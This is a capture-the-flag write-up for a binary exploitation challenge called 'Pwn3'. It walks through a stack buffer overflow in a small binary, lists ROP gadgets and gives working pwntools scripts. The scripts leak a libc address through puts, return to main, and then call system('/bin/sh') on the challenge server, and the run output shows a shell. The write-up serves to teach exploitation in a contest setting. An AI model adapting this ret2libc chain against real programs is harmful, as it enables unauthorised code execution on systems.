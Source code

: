 ```yaml
---
title: Pwn3
date: 2023-06-10
author: sunbather
tags:
  - pwn
---
```


## Description of the challenge

This time you have nothing! Can you still exploit this?

Author: NoobMaster

## Solution

Running checksec on the binary, we notice the lack of canary and PIE, just like the ones before it.

```
$ checksec pwn3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   41 Symbols	  No	0		1		pwn3
```

Open the binary in Ghidra:

```c
void main(EVP_PKEY_CTX *param_1)
{
  char local_28 [32];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(local_28,0x50,stdin);
  puts("n00bz{f4k3_fl4g}");
  return;
}
```
We immediately notice the overflow on ``local_28``. This time, however, we have no win function and no ``system`` either. Since the binary is too small for a full ROP payload, it must mean that we have to ret2libc with ROP.

```
$ ROPgadget --binary pwn3 | grep ret
0x00000000004010eb : add bh, bh ; loopne 0x401155 ; nop ; ret
0x00000000004010bc : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x000000000040115a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004010be : add byte ptr [rax], al ; endbr64 ; ret
0x000000000040115b : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004010ea : add dil, dil ; loopne 0x401155 ; nop ; ret
0x000000000040115c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401157 : add eax, 0x2f0b ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x000000000040122d : cli ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x00000000004010c3 : cli ; ret
0x000000000040123b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040122a : endbr64 ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x00000000004010c0 : endbr64 ; ret
0x0000000000401231 : in eax, 0x5f ; ret
0x0000000000401228 : leave ; ret
0x00000000004010ed : loopne 0x401155 ; nop ; ret
0x0000000000401156 : mov byte ptr [rip + 0x2f0b], 1 ; pop rbp ; ret
0x0000000000401230 : mov ebp, esp ; pop rdi ; ret
0x000000000040122f : mov rbp, rsp ; pop rdi ; ret
0x0000000000401227 : nop ; leave ; ret
0x00000000004011d8 : nop ; pop rbp ; ret
0x00000000004010ef : nop ; ret
0x0000000000401158 : or ebp, dword ptr [rdi] ; add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040115d : pop rbp ; ret
0x0000000000401232 : pop rdi ; ret
0x000000000040122e : push rbp ; mov rbp, rsp ; pop rdi ; ret
0x000000000040101a : ret
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040123d : sub esp, 8 ; add rsp, 8 ; ret
0x000000000040123c : sub rsp, 8 ; add rsp, 8 ; ret
```
We find a ``pop rdi ; ret`` which is essential for passing ``/bin/sh`` to system. We have puts imported in the binary, which might help us leak a libc address and go from there. We can return to the PLT entry for puts, with the GOT entry as an argument (using ``pop rdi; ret``). Running this payload will conveniently print puts libc address. Then, we can find the libc version, using the [libc database search](https://libc.blukat.me/).

Afterwards, by downloading the found libc version and running it with gdb locally, we can find offsets from puts to everything else. We can even search for ``/bin/sh`` and calculate the offsets, using search-pattern from [gef](https://github.com/hugsy/gef). Exploit to leak:

```py
#!/usr/bin/env python3
from pwn import *

#target = process("./pwn3")
target = remote("challs.n00bzunit3d.xyz", 42450)

pop_rdi = p64(0x0000000000401232)

puts_plt = p64(0x00401060)
puts_got = p64(0x00404018)

target.recvuntil(b'flag?')
payload = b"a" * 0x28 + pop_rdi + puts_got + puts_plt
target.sendline(payload)
target.recvline()
target.recvline()
puts_leak = u64(target.recvline().strip().ljust(8, b'\x00'))
print(puts_leak)
print(hex(puts_leak))
```

We run the payload, get the address leak, find the libc versions and the offsets, and further fill in our exploit. An important step to take into account is the fact that we already waste all our inputs by leaking puts. So we should return to the main function at the end of our ROP chain, to abuse more inputs!

```py
#!/usr/bin/env python3

from pwn import *

libc = ELF("./libc6_2.34-0ubuntu3_amd64.so") # the found libc version
#target = process("./pwn3")
target = remote("challs.n00bzunit3d.xyz", 42450)

pop_rdi = p64(0x0000000000401232)
ret = p64(0x000000000040101a) # align stack to 16-bytes again for system call

main_addr = p64(0x004011db)
puts_plt = p64(0x00401060)
puts_got = p64(0x00404018)

target.recvuntil(b'flag?')
payload = b"a" * 0x28 + pop_rdi + puts_got + puts_plt + main_addr # go back to main for more inputs
target.sendline(payload)
target.recvline()
target.recvline()
puts_leak = u64(target.recvline().strip().ljust(8, b'\x00'))
print(puts_leak)
print(hex(puts_leak))


system_addr = p64(puts_leak - 0x30170) # offset found with gdb/gef
print(system_addr)

sh_addr = p64(puts_leak + 0x1577c8) # found with search-pattern /bin/sh in gef

payload = b"a" * 0x28 + ret + pop_rdi + sh_addr + system_addr

#gdb.attach(target)

target.sendline(payload)
target.interactive()
```
Run the exploit:
```
$ ./solve.py 
[*] '/home/sunbather/ctf/noobctf/pwn/pwn_series3/libc6_2.34-0ubuntu3_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './pwn3': pid 25635
140139460824784
0x7f74c2c80ed0
b'`\r\xc5\xc2t\x7f\x00\x00'
[*] Switching to interactive mode
Would you like a flag?
n00bz{f4k3_fl4g}
$ whoami
sunbather
```
Aaand we have a shell. Thanks for flying with .hidden airlines!

Note: pwntools has some functionality to automate finding offsets to libc, but for some reason I couldn't get it to work properly. Admittedly, it was my first time fiddling with it and was too lazy to make it work.
